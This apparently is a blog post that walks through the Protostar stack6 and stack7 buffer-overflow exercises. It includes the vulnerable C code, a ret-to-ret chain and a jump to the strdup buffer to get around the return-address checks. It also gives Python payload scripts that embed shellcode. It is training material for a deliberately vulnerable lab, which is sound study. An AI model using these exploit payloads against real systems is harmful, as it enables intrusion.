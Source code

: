```yaml
---
layout: post
title:  "Protostar Exploit Exercises: Stacks Part Three"
---
```


## [stack6](https://exploit-exercises.com/protostar/stack6/)

>###About
>
>Stack6 looks at what happens when you have restrictions on the return address.
>
>This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or ret2libc, or even return orientated programming.
>
>It is strongly suggested you experiment with multiple ways of getting your code to execute here.

Let's have a look at a excerpt from the code.

{% highlight c %}
void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}
{% endhighlight %}

In [my previous post]({% post_url 2016-01-11-protostar-part-two %}), I
used a  return address which  pointed to  somewhere on the  stack (the
stack  in  linux  is  usually  located  around  0xbffff000).  In  this
challenge, that's  no longer  possible since  the function  checks the
return address  & quits if the  address we've provided is  pointing to
somewhere on the stack.

## ROP-solution: Return oriented halting

Even though the C-code does not allow us to jump into our buffer,
there's no protection beyond that point. So what if we jumped to a location,
that jumps to a location?

![Return deeper]({{ site-url }}/assets/post_images/protostar_part3_go_deeper.png)

All we need to do is find a instruction *somewhere* in memory that 
holds a `ret` instruction. And that's the easy part.

After figuring out how much to overwrite, we put two and two together in `payload.py`

{% highlight python %}
# payload.py
from struct import pack

ret    = pack('L', 0x08048508)
buffer = pack('L', 0xbffff76c)
# https://www.exploit-db.com/exploits/37289/
shellcode = '\x31\xc0\x50\x68\x68\x61\x6c'+\
    '\x74\x68\x69\x6e\x2f\x2f\x68\x2f\x2f'+\
    '\x73\x62\x89\xe3\x50\x89\xe2\x53\x89'+\
    '\xe1\xb0\x0b\xcd\x80'

# esp = 0xbffff7bc
# buffer = 0xbffff76c
padding = "A" * (0xbffff7bc-0xbffff76c - len(shellcode))

payload = shellcode + padding + ret + buffer

print(payload)
{% endhighlight %}

`python shellcode.py > shellcode`

So when the `ret` in `getpath` executes, 4 bytes are popped of the stack
into eip & provided that eip is now pointing at another `ret` instruction,
another 4 bytes are popped of the stack & into eip. Right?

![Yep]({{ site-url }}/assets/post_images/protostar_part3_quite_right.png)

Right.

*note: The `pop` instruction increments the stack-pointer by 4, so we
 need to place the next return address after our initial one.*

There you have it. I might revisit this challenge with the ret2libc
solution later but for now - I've been unable to find the
system-function loaded in via libc in the executable. Looking for it
in gdb only yields `__libc_system`.

![Frowntown]({{ site-url }}/assets/post_images/protostar_part3_no_system.png)

* * *

## [stack7](https://exploit-exercises.com/protostar/stack7/)

> Stack6 introduces return to .text to gain code execution.
>
>The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

The `getpath` function is back, and this time... it's personal.

{% highlight c %}
char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}
{% endhighlight %}

Let's have a look in gdb.

strdup returns the address of the allocated string in the eax register.

We can get around the return-address check if we jump to the buffer
allocated by strdup. Very much like the previous challenge, I used gdb
to set a breakpoint at the `ret` instruction in getpath, took note of the 
following states:

+ The returned address from strdup stored in eax
  In my case this was 0x804a008

+ The value of esp
  In my case this was 0xbffff7bc

+ The address of the buffer
  In my case this was 0xbffff76c

{% highlight python %}
from struct import pack

shellcode = '\x31\xc0\x50\x68\x68\x61\x6c\x74'+\
    '\x68\x69\x6e\x2f\x2f\x68\x2f\x2f\x73\x62'+\
    '\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b'+\
    '\xcd\x80'
payload = shellcode +\
    'A'*(0x7bc-0x76c - len(shellcode)) +\
    pack('L', 0x804a008)

print(payload)
{% endhighlight %}

![Success]({{ site-url }}/assets/post_images/protostar_part3_ez_stack7.png)

![Happy]({{ site-url }}/assets/post_images/happy_zizek.jpg)

Now onto the Format challenges! :D

Thanks for reading!


